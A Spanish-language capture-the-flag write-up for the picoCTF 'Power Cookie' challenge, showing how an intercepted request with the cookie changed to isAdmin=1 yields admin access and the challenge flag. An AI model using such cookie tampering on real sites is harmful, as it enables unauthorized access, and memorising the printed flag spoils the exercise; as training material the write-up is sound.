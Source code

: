 ```yaml
---
title: Power Cookie
date: 2025-05-14 13:00:00 +0200
categories: [writeup, picoctf]
tags: [picoctf, more sqli, webexplotation]     
image:
    path: https://picoctf.org/img/logos/pico-mark.svg
    alt: PicoCTF
---
```


>Power Cookie
Author: LT 'syreal' Jones
Description
Can you get the flag? Go to this website and see what you can discover.
{: .prompt-tip }

Lanzamos la instancia y nos aparece una web, pulsamos el botón de "login as guess"
Si atendemos a lo que pasa en la consola del desarrollador nos encontramos con una cookie, bastante relevante

```
"isAdmin": "0"
```

Capturamos con ZAP y editamos el valor isAdmin para intentar cambiar el comportamiento 
```
GET http://saturn.picoctf.net:58859/check.php HTTP/1.1
Host: saturn.picoctf.net:58859
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Referer: http://saturn.picoctf.net:58859/
Connection: keep-alive
Cookie: isAdmin=1
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

``` html
<html>
<body>
<p>picoCTF{gr4d3_A_c00k13_0d351e23}</p>
</body>
</html>
```

flag: **picoCTF{gr4d3_A_c00k13_0d351e23}**